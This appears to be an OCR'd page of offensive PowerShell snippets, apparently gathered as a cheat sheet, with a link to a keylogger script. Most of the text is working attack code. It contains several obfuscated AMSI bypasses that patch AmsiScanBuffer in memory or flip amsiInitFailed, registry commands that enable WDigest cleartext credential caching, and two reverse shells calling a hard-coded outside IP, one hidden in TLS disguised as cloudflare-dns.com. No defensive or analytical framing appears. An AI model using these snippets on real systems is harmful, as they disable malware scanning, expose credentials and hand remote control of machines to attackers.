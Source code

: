 https://raw.githubusercontent.com/lazywinadmin/PowerShell/refs/heads/master/TOOL-Start-KeyLogger/Start-KeyLogger.ps1

==============================================================================================================================

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

==============================================================================================================================

reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential

reg add HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

==============================================================================================================================

$c = ‘t’
$Win32 = @”
using System.Runtime.InteropServices;
using System;
public class Win32 {
[DllImport(“kernel32”)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport(“kernel32”)]
public static extern IntPtr LoadLibrary(string name);
[DllImport(“kernel32”)]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
“@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = ‘VirtualProtec’
[Win32]::(‘{0}{1}’ -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

==============================================================================================================================

$kizax = @"
using System;
using System.Runtime.InteropServices;
public class kizax {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $kizax

$rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
$iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
$p = 0
[kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
$aapt = "0xB8"
$qkwf = "0x57"
$snxi = "0x00"
$wnan = "0x07"
$nchj = "0x80"
$yywa = "0xC3"
$estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
[System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)

==============================================================================================================================

$teste = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static')
$teste.SetValue($null,$true)

==============================================================================================================================

$x=51;$a=[Ref].Assembly;$y=$x*1000;$b=$a.GetTypes();$z=$y-32;$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like '*siUt*'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};};$x=$z;$e=$c.GetFields('NonPublic,Static');$y=$x-2;$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like '*siCo*'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};};$z=324;$h=$g.GetValue($null);$x=$y-2;[IntPtr]$i=$h;$z=$x+2;[Int32[]]$j=@(0);$y=$z;[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1);

==============================================================================================================================

powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"

==============================================================================================================================

$sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient = New-Object Net.Sockets.TCPClient('52.54.121.107', 443);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$sslProtocols,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = New-Object System.Byte[] 4096 ;$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()

==============================================================================================================================

$x=51
$a=[Ref].Assembly
$y=$x*1000
$b=$a.GetTypes()
$z=$y-32
$c=ForEach($d in $b){$y=$y-1;$z=$y;if($d.Name -like '*ils'){$z=$z-1;$x=$y+$z;if($d.Name -like 'siUt'){$y=$y+1;$x=$y;$y=$y-1;$d;break;};};}
$x=$z
$e=$c.GetFields('NonPublic,Static')
$y=$x-2
$g=ForEach($f in $e){if($f.Name -like '*ext'){$z=$z-1;$x=$y+$z;if($f.Name -like 'siCo'){$y=$y+1;$x=$y;$y=$y-1;$f;break;};};}
$z=324
$h=$g.GetValue($null)
$x=$y-2
[IntPtr]$i=$h
$z=$x+2
[Int32[]]$j=@(0)
$y=$z
[System.Runtime.InteropServices.Marshal]::Copy($j,0,$i,1)

